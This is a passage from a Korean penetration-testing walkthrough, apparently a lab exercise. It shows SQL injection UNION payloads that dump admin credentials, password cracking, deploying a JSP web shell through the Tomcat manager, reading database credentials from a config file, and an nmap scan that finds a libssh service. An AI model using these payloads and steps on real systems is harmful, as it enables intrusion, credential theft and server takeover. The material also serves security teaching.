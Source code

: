 ***

### 4) 관리자 계정 탈취

member라는 테이블에 계정 정보가 들어있다는 정보를 알고 있을 때,
```sql
') UNION SELECT 1, 2, column_name, 4 FROM information_schema.columns WHERE table_name='member' ; #
```
no, id, pw라는 컬럼을 가지고 있는 table임을 알 수 있음.

```sql
') UNION SELECT 1, 2, id, pw FROM member ; #
```
관리자의 id와 pw를 알 수 있음.

pw는 해시 함수로 암호화 되어있기 때문에, john the reaper 방식을 이용해서 패스워드 크래킹을 진행하거나, 인터넷에 나와있는 툴로 진행한다.

***

### 5) 서버 장악

ip주소:포트/manage/html 주소로 들어왔을 때, 얻어낸 관리자 계정으로 로그인 가능.

로그인 후, 관리자 페이지 내에서 Deploy 기능을 확인한다.

웹 쉘 업로드를 위해 kali에 내장되어 있는 /usr/share/webshell/jsp/cmdjsp.jsp 파일을 사용한다.
```sh
jar cvf webshell.war cmdjsp.jsp
```
WAR 파일로 변환시켜준 후, 업로드한다.

웹 쉘을 통해 서버 내 저장된 파일들의 정보를 확인한다.

***

### 6) 정보 탈취

/tomcat7/webapps/ROOT/index.jsp

경로에 있는 DB 접속 파일을 확인한다.

```
얻을 수 있는 정보
1) DB IP 주소
2) DB 사용자의 ID
3) DB 사용자의 PW
```

***

### 7) 취약점 확인

```sh
nmap -sV IP주소
```
```sh
2222/tcp open  ssh  libssh 0.8.1
```
명령어를 통해 DB서버에 포트 스캔을 진행하고, SSH와 DB 포트가 오픈되어 있음을 알 수 있다.
